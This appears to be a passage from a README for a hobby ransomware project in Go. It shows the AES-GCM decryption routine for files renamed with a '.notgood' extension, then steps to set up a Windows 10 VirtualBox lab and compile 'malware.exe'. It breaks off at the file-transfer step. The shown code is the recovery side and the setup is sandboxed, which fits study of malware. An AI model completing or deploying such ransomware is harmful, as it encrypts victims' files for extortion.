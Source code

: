     This function handles the actual decryption of a file:

    - **Read Encrypted Content:** The encrypted file is read into memory, and the nonce is extracted.
    ```go
    encryptFileBytes, _ := os.ReadFile(encryptedPath)
    nonceSize := 12
    if len(encryptFileBytes) < nonceSize {
        fmt.Println("invalid encrypted file")
        return
    }
    cipherText := encryptFileBytes[nonceSize:]
    ```
    - **Decrypt Content:** The content is decrypted using AES-GCM and the extracted nonce.
    ```go
    block, _ := aes.NewCipher([]byte(encryptionKey))
    gcm, _ := cipher.NewGCM(block)
    decryptedData, _ := gcm.Open(nil, nonce, cipherText, nil)
    ```
    - **Save Decrypted File:** The decrypted content is saved to a new file without the .notgood extension, and the encrypted file is deleted.
    ```go
    os.WriteFile(decryptedPath, decryptedData, 0o644)
    os.Remove(encryptedPath)
    ```

## Setup

### 1. **Install VirtualBox:** 

- Download VirtualBox and install it on your host machine.

### 2. **Download Windows 10 ISO:** 

- Obtain the Windows 10 ISO from Microsoft.

### 3. **Create a Virtual Machine:** 

- Set up a new virtual machine using the downloaded Windows 10 ISO.

*Note: You may need to disable the Floppy drive and remove the floppy controller in the VM settings to successfully install Windows.*

### 5. **Enable Host-VM File Communication:** 

- To transfer files between your host and VM, go to the VM window, select Devices -> Insert Guest Additions CD Image, navigate to the CD drive, and run the setup file. Restart the VM afterward. On Virtual box navigate to settings -> Shared Folders -> Add a new shared folder. Select the folder you want to share. This will be visable in the VM under network.

### 6. **Compile the Malware:**

**Compile the malware using the provided source code.**
- linux: ```GOOS=windows GOARCH=amd64 go build malware -o malware.exe```
- windows: ```go build malware.go -o malware.exe```
### 7. **Transfer malware.exe:** 
